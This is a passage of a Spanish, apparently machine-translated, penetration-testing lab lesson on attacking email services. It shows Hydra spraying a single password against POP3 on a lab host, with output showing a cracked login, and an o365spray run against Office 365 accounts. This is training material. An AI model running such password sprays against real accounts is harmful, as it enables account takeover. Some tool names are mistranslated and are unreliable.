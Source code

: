```
[ * ] All enumerated accounts can be found at: '/opt/o365spray/enum/enum_tested_accounts.2204130948.txt'

[2022-04-13 09:48:10,416] INFO : Valid Accounts: 2

```

---

# **Ataques de contraseña**

Podemos usar`Hydra`Para realizar una contraseña de spray o bruta fuerza contra los servicios de correo electrónico como`SMTP`, `POP3`, o`IMAP4`. Primero, necesitamos obtener una lista de nombre de usuario y una lista de contraseñas y especificar qué servicio queremos atacar. Veamos un ejemplo para`POP3`.

### **Hydra - Ataque de contraseña**

Atacando servicios de correo electrónico

```
xnoxos@htb[/htb]$ hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-04-13 11:37:46
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 67 login tries (l:67/p:1), ~5 tries per task
[DATA] attacking pop3://10.10.110.20:110/
[110][pop3] host: 10.129.42.197   login: john   password: Company01!
1 of 1 target successfully completed, 1 valid password found

```

Si los servicios en la nube admiten los protocolos SMTP, POP3 o IMAP4, es posible que podamos intentar realizar spray de contraseña utilizando herramientas como`Hydra`, pero estas herramientas generalmente están bloqueadas. En su lugar, podemos intentar usar herramientas personalizadas como[o365spray](https://github.com/0xZDH/o365spray)o[Mierda](https://github.com/dafthack/MailSniper)para Microsoft Office 365 o[Atribución](https://github.com/ustayready/CredKing)para Gmail o Okta. Tenga en cuenta que estas herramientas deben estar actualizadas porque si el proveedor de servicios cambia algo (lo que sucede a menudo), las herramientas pueden no funcionar más. Este es un ejemplo perfecto de por qué debemos entender lo que están haciendo nuestras herramientas y tener el conocimiento para modificarlas si no funcionan correctamente por alguna razón.

### **Spray O365 - Pinu de contraseña**

Atacando servicios de correo electrónico

```
xnoxos@htb[/htb]$ python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz            *** O365 Spray ***

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  msplaintext.xyz
   > spray          :  True
   > password       :  March2022!
   > userfile       :  usersfound.txt
   > count          :  1 passwords/spray
   > lockout        :  1.0 minutes
   > spray_module   :  oauth2
   > rate           :  10 threads
   > safe           :  10 locked accounts
```